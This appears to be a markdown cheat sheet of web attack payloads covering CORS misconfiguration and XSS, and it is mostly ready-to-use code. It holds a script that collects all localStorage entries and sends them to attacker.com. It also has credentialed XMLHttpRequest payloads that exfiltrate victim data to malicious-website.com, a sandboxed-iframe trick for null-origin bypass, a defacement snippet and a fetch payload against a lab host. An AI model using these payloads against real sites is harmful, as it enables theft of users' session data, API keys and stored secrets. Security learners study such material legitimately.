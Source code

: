 ## Stealing Local Storage via Js

    <script>
    let i=0;
    let stor="";
    let img = new Image();

    while(localStorage.key(i)!== null)
    {
        stor += localStorage.key(i) + ": " + localStorage.getItem(localStorage.key(i)) + "\n";
        i++;
    }

    img.src="http://attacker.com/steal.php?stor=" + stor;

    </script>

## Access the parent Document from an iFrame

    <script>
        window.parent.document.body.innerHTML = 'defaced';
    </script>

## Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain

    GET /sensitive-victim-data HTTP/1.1
    Host: vulnerable-website.com
    Origin: https://malicious-website.com
    Cookie: sessionid=...

It then responds with:

    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: https://malicious-website.com
    Access-Control-Allow-Credentials: true

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain.

    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
    };

## Whitelisted null origin value

Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:

    GET /sensitive-victim-data
    Host: vulnerable-website.com
    Origin: null

And the server responds with:

    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: null
    Access-Control-Allow-Credentials: true

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='malicious-website.com/log?key='+this.responseText;
    };
    </script>"></iframe>

## Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:

    GET /api/requestApiKey HTTP/1.1
    Host: vulnerable-website.com
    Origin: https://subdomain.vulnerable-website.com
    Cookie: sessionid=...

If the server responds with:

    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
    Access-Control-Allow-Credentials: true

Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:

    https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>


## Leveraging misconfigured CORS policy.

If the response header contains: 

    Access-Control-Allow-Origin: *

Then any user can get access to the resource.

### Payload

    <!DOCTYPE html>
    <html>
    <head>
            <meta charset="utf-8">
            <title>Simple Page</title>
            <script type="text/javascript">
                    fetch("http://demo.ine.local/secret-cors-1.php")
                    .then(resp => resp.text())
                    .then(resp => {
                            console.log(resp)
                    }).catch(err => {
                            console.log(err);
                    })
            </script>
    </head>
    <body>
            <h1>Hello World!</h1>
    </body>
    </html>

The fetch fn will get the data of this link